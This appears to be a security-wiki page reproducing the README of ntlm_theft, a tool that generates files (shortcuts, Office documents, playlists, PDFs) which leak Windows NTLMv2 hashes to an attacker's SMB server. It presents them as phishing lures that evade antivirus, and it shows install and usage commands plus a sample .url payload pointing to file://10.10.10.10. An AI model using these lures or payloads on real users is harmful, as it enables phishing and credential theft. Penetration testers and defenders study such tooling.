 ```yaml
---
title : "ntlm_theft"
# pre : ' '
description : "A tool for generating multiple types of NTLMv2 hash theft files."
date : 2022-09-19T08:41:52+02:00
# hidden : true
# draft : true
weight : 1230
# tags : ['']
---
```


---

A tool for generating multiple types of NTLMv2 hash theft files.

`ntlm_theft` is an Open Source Python3 Tool that generates 21 different types of hash theft documents. These can be used for phishing when either the target allows smb traffic outside their network, or if you are already inside the internal network.

The benefits of these file types over say macro based documents or exploit documents are that all of these are built using "intended functionality". None were flagged by Windows Defender Antivirus on June 2020, and 17 of the 21 attacks worked on a fully patched Windows 10 host.  

`ntlm_theft` supports the following attack types:

- Browse to Folder Containing
  - .url – via URL field
  - .url – via ICONFILE field
  - .lnk - via icon_location field
  - .scf – via ICONFILE field (Not Working on Latest Windows)
  - autorun.inf via OPEN field (Not Working on Latest Windows)
  - desktop.ini - via IconResource field (Not Working on Latest Windows)
- Open Document
  - .xml – via Microsoft Word external stylesheet
  - .xml – via Microsoft Word includepicture field
  - .htm – via Chrome & IE & Edge img src (only if opened locally, not hosted)
  - .docx – via Microsoft Word includepicture field
  - .docx – via Microsoft Word external template
  - .docx – via Microsoft Word frameset webSettings
  - .xlsx - via Microsoft Excel external cell
  - .wax - via Windows Media Player playlist (Better, primary open)
  - .asx – via Windows Media Player playlist (Better, primary open)
  - .m3u – via Windows Media Player playlist (Worse, Win10 opens first in Groovy)
  - .jnlp – via Java external jar
  - .application – via any Browser (Must be served via a browser downloaded or won’t run)
- Open Document and Accept Popup
  - .pdf – via Adobe Acrobat Reader
- Click Link in Chat Program
  - .txt – formatted link to paste into Zoom chat

## Installation

```plain
git clone https://github.com/Greenwolf/ntlm_theft.git
python3 -m pip install xlsxwriter
```

## Usage

```plain
ntlm_theft.py --generate all --server <ip_of_smb_catcher_server> --filename <base_file_name>
```

## Flags

```plain
ntlm_theft by Jacob Wilkin(Greenwolf)

options:
  -h, --help            show this help message and exit
  -v, --version         show program's version number and exit
  -vv, --verbose        Verbose Mode
  -g {scf,xlsx,docx,jnlp,zoom,autoruninf,rtf,m3u,desktopini,lnk,wax,application,htm,all,url,pdf,xml,modern,asx}, --generate {scf,xlsx,docx,jnlp,zoom,autoruninf,rtf,m3u,desktopini,lnk,wax,application,htm,all,url,pdf,xml,modern,asx}
                        Choose to generate all files or a specific filetype
  -s SERVER, --server SERVER
                        The IP address of your SMB hash capture server (Responder, impacket ntlmrelayx, Metasploit auxiliary/server/capture/smb, etc)
  -f FILENAME, --filename FILENAME
                        The base filename without extension, can be renamed later (test, Board-Meeting2020, Bonus_Payment_Q4)
```

Required parameters.

```plain
-g, --generate  : Choose to generate all files or a specific filetype
-s, --server    : The IP address of your SMB hash capture server (Responder, impacket ntlmrelayx, Metasploit auxiliary/server/capture/smb, etc)
-f, --filename  : The base filename without extension, can be renamed later (eg: test, Board-Meeting2020, Bonus_Payment_Q4)
```

## Examples

### Create LNK file(s)

```plain
$ python3 ntlm_theft.py -g lnk -s 10.10.10.10 -f generated-file    
Created: generated-file/generated-file.lnk (BROWSE TO FOLDER)
Generation Complete.
```

### Create URL file(s)

```plain
$ python3 ntlm_theft.py -g url -s 10.10.10.10 -f generated-url  
Created: generated-url/generated-url-(url).url (BROWSE TO FOLDER)
Created: generated-url/generated-url-(icon).url (BROWSE TO FOLDER)
Generation Complete.

$ cat generated-url/generated-url-\(url\).url 
[InternetShortcut]
URL=file://10.10.10.10/leak/leak.html
```

## URL List

- [Github.com - ntlm_theft](https://github.com/Greenwolf/ntlm_theft)
